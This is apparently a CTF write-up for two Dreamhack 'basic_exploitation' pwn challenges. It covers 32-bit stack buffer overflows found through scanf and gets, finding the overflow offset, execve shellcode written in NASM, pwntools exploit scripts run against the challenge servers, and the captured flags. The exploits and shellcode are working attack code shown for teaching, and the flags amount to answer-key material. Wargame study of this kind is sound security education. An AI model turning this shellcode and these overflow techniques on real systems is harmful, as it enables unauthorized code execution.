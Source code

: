 ```yaml
---
title: "[DREAMHACK] - Basic exploitation series"
published: 2024-12-01
description: ""
image: "../../image.png"
tags:
  - PWN
category: "Wargame"
draft: false
---
```


## basic_exploitation_00

### Analysis

Let's take a look at the binary:

```bash
➜  basic_exploitation_00 file basic_exploitation_000
basic_exploitation_000: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a0b1247f86255866edcc25bf1af6c782a3d29975, not stripped
➜  basic_exploitation_00 checksec --file=basic_exploitation_000
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   79 Symbols        No    0               1               basic_exploitation_000

```

A 32-bit LSB executable file with no stack canary, so we can be able to smash the stack

Let's look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

So in the main() function there's a vuln here `scanf("%141s", buf);`. The buf just can contain 0x80 byte but our input is 141 bytes so there's a buffer overflow vulnerability.

The idea of this challenge is crafting the shellcode and make it execute by triggering the return address to make it return to our buffer started address have leaked while we run the binary

```bash
➜  basic_exploitation_00 ./basic_exploitation_000
buf = (0xff997ff8)
hello

```

But first things we need to do is find the offset between our input and eip (this is a 32-bit binary)

```nasm
gef➤  tel
0xffffcb80│+0x0000: 0x080486a5  →  "%141s"       ← $esp
0xffffcb84│+0x0004: 0xffffcb88  →  "hello"
0xffffcb88│+0x0008: "hello"
0xffffcb8c│+0x000c: 0x0000006f ("o"?)
0xffffcb90│+0x0010: 0x00000000
0xffffcb94│+0x0014: 0x00000001
0xffffcb98│+0x0018: 0xf7ffda20  →  0x00000000
0xffffcb9c│+0x001c: 0x00000000
0xffffcba0│+0x0020: 0x00000000
0xffffcba4│+0x0024: 0xffffce0b  →  0x98bb4ff4

```

We can see our input start at `0xffffcb88` and the saved eip is `0xffffcc0c` so we can calculate the offset is `0x84`

### Exploit

As the idea above, we need to craft the shellcode, so the first thing we need to do is write an assembly code to use execve() syscall to get shell:

```nasm
section .text
    global _start

_start:
    xor eax, eax; safe null
    push eax; push null byte onto stack
    push 0x68732f2f ; push /bin//sh
    push 0x6e69622f
    mov ebx,esp ; set ebx to out cmd
    xor ecx, ecx; no args
    xor edx, edx ; no args again
    mov al, 0xb ; set sys_execve
    int 0x80

; nasm -f elf shellcode.asm
; ld -m elf_i386 -o shellcode shellcode.o
;  objdump -d shellcode | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\\n' | sed 's/.\\{2\\}/&\\\\x /g'| head -c-3 | tr -d ' ' && echo ' '

```

And our exploit will look like this:

```python
#!/usr/bin/python3

from pwn import *

# context.log_level = 'debug'
exe = context.binary = ELF('./basic_exploitation_000', checksec=False)

# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv()
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

c
''')

p = remote('host3.dreamhack.games',19046) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB:
    GDB()
    input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

buf = int(p.recv()[7:17],16)
print("buf address : "+hex(buf))

payload = b"\\x90"*6
payload += b"\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x08\\x40\\x40\\x40\\xcd\\x80"
payload += b"\\x90"*100 # nop
payload += p32(buf)

p.sendline(payload)

p.interactive()

```

```bash
➜  basic_exploitation_00 python3 exploit.py REMOTE
[+] Opening connection to host3.dreamhack.games on port 19046: Done
buf address : 0xfff90548
[*] Switching to interactive mode
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}$
```

## basic_exploitation_001

### Analysis

This challenge is the same as above but more easy to exploit
So let's take a quick look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

    return 0;
}

```

So our target is `read_flag()` function by using `gets()` function we can easily tell the our program to execute that function

A step to find offset is the same as `basic_exploitation_000`

### Exploit

```python
from pwn import *

p = remote('host3.dreamhack.games', 10179)
exe = ELF('./basic_exploitation_001', checksec = False)

pl = b'A'*132
pl+= p32(exe.sym['read_flag'])

p.sendline(pl)
p.interactive()

```

```bash
➜  basic_exploitation_1 python3 exploit.py
[+] Opening connection to host3.dreamhack.games on port 10179: Done
[*] Switching to interactive mode
DH{01ec06f5e1466e44f86a79444a7cd116}[*] Got EOF while reading in interactive

```
